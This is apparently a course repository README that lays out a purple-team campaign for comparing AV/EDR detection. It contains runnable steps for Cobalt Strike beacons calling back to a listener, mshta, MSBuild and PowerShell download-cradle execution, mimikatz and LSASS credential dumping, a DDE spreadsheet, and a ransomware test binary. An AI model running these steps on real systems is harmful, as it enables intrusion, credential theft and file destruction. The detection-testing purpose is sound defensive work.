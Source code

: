 # Purple Team Playbook for CSE566

*WARNING: This repo contains files many AV products including Windows Defender will find malicious. Do not download on a production system*

- This playbook is a quick and dirty purple team campaign developed for an infosec course
- The goal of this Purple Team Campaign is to compare detection capabilites for different AV (or EDR) products. All test cases will force on the endpoint
- Many of the payloads utilize Cobalt Strike. This is a paid commerical product, however, it should be easier enough modify the given playbook for open source tools such as Metasploit 
- Compiled payloads for Cobalt Strike Beacon assume a reverse http listener located at IP 192.168.56.102 (VirtualBox host-only network). These binaries are simple examples. Feel free to recompile following the provided instructions,
- The test cases roughly align to the MITRE ATT&CK framework. Unfortunately, they haven't been fully updated to align exactly to the latest release

## Execution Test Cases (basic)

### Test 1 - Client-side - Compiled Payload (Cobalt Strike)

(note: Cobalt Strike is a commerical product. Similar tests can be performed with Metasploit)

1. On Cobalt Strike teamserver, create listener by clicking the headphone icon in the toolbar. A basic HTTP listen is all that is required for this test. See documentation for more details https://www.cobaltstrike.com/downloads/csmanual40.pdf 
2. Generate executable payload in the Cobalt Strike toolbar -> attacks -> packages -> Windows Executable. Select the listener you created in step one and click generate.
    - Link to pre-genereated payload used for this test [beacon.exe](./payloads/beacon.exe)
3. Copy generated payload to target system.
4. Execute payload on target host as admin either through an elevated prompt or by right-clicking and running as administrator

### Test 2 - Client-side - Encrypted Payload (Cobalt Strike)
1. Server setup is the same as above
2. Encrypt payload using SPEGO from https://github.com/schladt/spego/releases. 
    - You only need the the SPEGO binary for the machine running Cobalt Strike along with example-config.yaml
    - Link to pre-generated encrypted payload used for this test: [encrypted-beacon.exe](./payloads/encrypted-beacon.exe) 

7. Copy the output executable from SPEGO to the target host

8. Set any environment variables. Powershell example for the pre-generated payload: 
```
$ ENV:SPEGOPASS='password'
```
9. Execute payload on target host as admin either through an elevated prompt or by right-clicking and running as administrator

### Test 3 - Process Creation Using MSBuild

(note: requires .NET4.0 or higher to be installed on target system)

1. Upload [T1127.csproj](./payloads/T1127.csproj) to target system. This can be accomplished with the Cobalt Strike Beacon upload feature, via Powershell's Invoke-Webrequest, or any other method desired
2. Run MSBuild with cmd.exe 
- ```C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe T1127.csproj```

    or via Cobalt Strike Beacon:

- ```beacon> shell c:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe T1127.csproj```


### Test 4 - Client Side - Locally executed .HTA Script
1. On the target machine download the [T1170.hta](./payloads/T1170.hta) to a local folder.
2. Execute ```mshta.exe {full_path}/T1170.hta``` note: FULL path is required. NO relative paths will work

### Test 5 - Script Download - Remote Hosted .HTA Script
1. On a web server reachable by the target, host [script.sct](./payloads/script.sct) for MSHTA to download and execute.
2. Execute ```mshta.exe {file_url}``` replacing {file_url} with the URL of the hosted script.

### Test 6 - Client Side - Locally executed .PS1 Script

1. On the target machine download [Invoke-DownloadCradle.ps1](./payloads/Invoke-DownloadCradle.ps1) to a local folder on the target system.
2. From a Powershell shell execute ".\Invoke-DownloadCradle.ps1" -- this requires "Set-ExecutionPolicy unrestricted" if not already set.

## Credential Dumping (https://attack.mitre.org/techniques/T1003/)
### Test 7 - Extract SAM Hashes via Beacon Hashdump
1. Use Cobalt Strike Beacon
2. Set ```sleep 0```
3. Execute ``` hashdump ```

### Test 8 - Extract Logonpasswords via Beacon Logonpasswords
1. Use Cobalt Strike Beacon
2. Set ```sleep 0```
3. Execute ``` logonpasswords ```

### Test 9 - Extract Logonpasswords via Mimikatz Binary

1. Upload encrypted [mimikatz package](./payloads/mk-2.2.0.7z) to target system. This can be accomplished via USB transfer, web download, or any other suitable transfer method.
2. Use 7 zip to extract the password protected file. The password is ```malware```
3. Open an administrator terminal (right click 'run as administrator') and navigate to the directory created in the previous step. If on a 64 bit system, navigate to the x64 directory \mk-2.2.0\x64\
4. Enter the following commands
```
.\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
```

### Test 10 - Extract LSASS memory via Dumpert

1. (optional) Compile new version of Outflank Dumpert from source using Visual Studio https://github.com/outflanknl/Dumpert. Make sure you set the target build to 'Release'.
2. (optional) Encrypt dumpert executable using SPEGO https://github.com/schladt/spego
3. Copy dumpert executable to target system via any means available (usb, web transfer, etc). A password protected 7z file is included in this repo at [Dumpert.7z](./payloads/dumpert.7z). The password for this file is ```malware```
4. Open an administrive terminal such as powershell.
5. Navigate to the location of dumpert.exe on the target system and execute dumpert.exe

## Execution - Intermediate 
### Test 11 - Inter-Process Communication - Dynamic Data Exchange
1. In modern versions on MS Office DDE is disabled by default. For the purpose of purple team testing, we will enable this feature (becuase who knows what the users have enabled and social engineering is a plausible work-around). In Excel, perform the following:

    ```File → Options → Trust Center → Trust Center Settings → External Content → Enable Dynamic Data Exchange Server Launch```
2. Copy [dde.xlsx](./payloads/dde.xlsx) to the remote system
3. Open and accept all warnings

### Test 12 - Command and Scripting Interpreter: Visual Basic (via Cobalt Strike)
1. Generate macro code from Cobalt Strike GUI
    ```Attacks -> Packages -> MS Office Application -> {select listener} -> Generate```
2. Follow the Macro Instruction
    - optionally, download pre-generated payload used for this campaign [beacon.docm](./payloads/beacon.docm)
3. Copy file to target system
4. Open and enable macros 

### Test 13 - Ransomware Payload
1. WARNING THIS TEST IS VERY DISTRUPTIVE AND IT IS HIGHLY RECOMMENDED TO BE EXECUTED ON SNAPSHOTTED VIRTUAL MACHINE
2. Source code for test ransomeware can be found at [ransom.go](.payloads/ransom.go)
3. Executable found at [ransom.exe](.payloads/ransom.exe)
4. Copy executable to target system
5. Execute with ```ransom.exe {root directory}``` where {root directory} is an optional directory to encrypt recursively
6. ransom.exe will walk the root directory and look for files with several pre-defined extensions.  
